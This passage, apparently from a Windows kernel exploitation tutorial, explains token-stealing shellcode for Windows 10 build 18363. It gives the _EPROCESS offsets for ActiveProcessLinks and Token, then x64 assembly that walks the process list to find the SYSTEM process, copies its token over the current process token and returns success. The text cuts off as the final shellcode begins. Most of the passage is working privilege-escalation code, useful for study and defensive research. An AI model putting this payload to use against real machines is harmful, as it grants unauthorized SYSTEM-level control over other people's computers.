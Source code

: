 * Token (which we want to replace by SYSTEM token)

* ActiveProcessLinks (a doubly linked list of the current processes)

Eventually the method is :

* cycle through ActiveProcessLinks, until we identify the actual SYSTEM process
* copy that SYSTEM token over to our process
* spawn cmd.exe from our current process

We can see ActiveProcessLinks at the offset 0x2f0 from _EPROCESS and token is at +0x360:

`kd> dt _EPROCESS`

    nt!_EPROCESS
    +0x000 Pcb              : _KPROCESS
    +0x2e0 ProcessLock      : _EX_PUSH_LOCK
    +0x2e8 UniqueProcessId  : Ptr64 Void
    +0x2f0 ActiveProcessLinks : _LIST_ENTRY
    +0x300 RundownProtect   : _EX_RUNDOWN_REF
    [...]
    +0x360 Token            : _EX_FAST_REF
    [...]

The ASM code which finds the E_PROCESS of SYSTEM (pid = 4) is like this one :

        mov rbx, rax			; copy _EPROCESS to rbx
        __findsystem:
        	mov rbx, [rbx + 0x2f0] 		; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    	    sub rbx, 0x2f0      	   	; 
    	    mov rcx, [rbx + 0x2e8] 		; Get nt!_EPROCESS.UniqueProcessId (PID)
    	    cmp rcx, 4 			        ; Compare PID to SYSTEM PID 4
    	jnz __findsystem			    ; Loop until SYSTEM PID is found

### Steal the token and get SYSTEM
Then we replace the current process token with the SYSTEM token :

        mov rcx, [rbx + 0x360]        ; Get SYSTEM process nt!_EPROCESS.Token
        and cl, 0xf0			      ; Clear out _EX_FAST_REF RefCnt
        mov [rax + 0x360], rcx        ; Replace the token

Then we return :

        xor eax, eax                         ; Set NTSTATUS SUCCESS
        ret

### Final shellcode

Here is the shellcode for token stealing on Win10 version 10.0.18363 (19H1) :

#### ASM

[BITS 64]

_start:

    ; Notes :
    ; RAX will point onto the current process
    ; RBX will point onto SYSTEM process
    ; RCX will contain the SYSTEM token
    